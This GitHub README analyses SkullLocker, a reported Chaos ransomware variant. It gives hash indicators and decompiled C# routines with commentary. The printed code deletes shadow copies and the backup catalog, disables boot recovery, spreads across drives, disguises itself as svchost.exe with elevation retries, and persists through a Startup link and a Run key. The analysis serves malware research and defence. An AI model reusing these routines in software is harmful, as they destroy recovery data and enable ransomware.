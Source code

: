 # SkullLocker-Analysis
A small Analysis of SkullLocker Code  



#### (SkullLocker is new Variant of Chaos Ransomware )

*IOCS :*

- SkullLocker : 

MD5 : 62e53bc5aa5f2a70a54e328bff51505f

SHA1 : e7deceee97a09d539d81eb91f988ece5e2a2ff51

SHA256 : bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369

- Chaos :

MD5 : 98274f8ae42ac490c3441b3b14459356

SHA1 : 59a80c57499b6eb5de31fcbf582eeeb1c3b20e9d

SHA256 : d09b875ead838ec256b863b5e8e252d5bca9172b5479b00699ff31b4d745c92b

*Behaviour :*

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```

- configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```

```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```

- also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup .


##  Encryption :

![Schema](works.png)

- XML string representation of an RSA public key.

```cs
public static string rsaKey()
		{
			StringBuilder stringBuilder = new StringBuilder();
			stringBuilder.AppendLine("<?xml version=\"1.0\" encoding=\"utf-16\"?>");
			stringBuilder.AppendLine("<RSAParameters xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\">");
			stringBuilder.AppendLine("  <Exponent>AQAB</Exponent>");
			stringBuilder.AppendLine("  <Modulus>4On6FTL3V5M4vs3OcxgegY+zBSLFwmoId3WY+pftKnF6iQzRS6axqTFO6ciu1N/JJwU5FKbMx1AauuHO4j0miKeDiKWRiv2O3O2QaVFZhggupZp/P0amGQa9NYG9eHSB7kL5UHFDOgk44EyTTOYeDoA2c9C83YHyPF3/WrkfQrE=</Modulus>");
			stringBuilder.AppendLine("</RSAParameters>");
			return stringBuilder.ToString();
		}
```

- Function to generate a random password with the given length

```cs
public static string CreatePassword(int length)
		{
			StringBuilder stringBuilder = new StringBuilder();
			Random random = new Random();
			while (0 < length--)
			{
				stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"[random.Next("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)]);
			}
			return stringBuilder.ToString();
		}
```

### Full Report :  https://c3p0d4y.github.io/2023/03/skullocker/
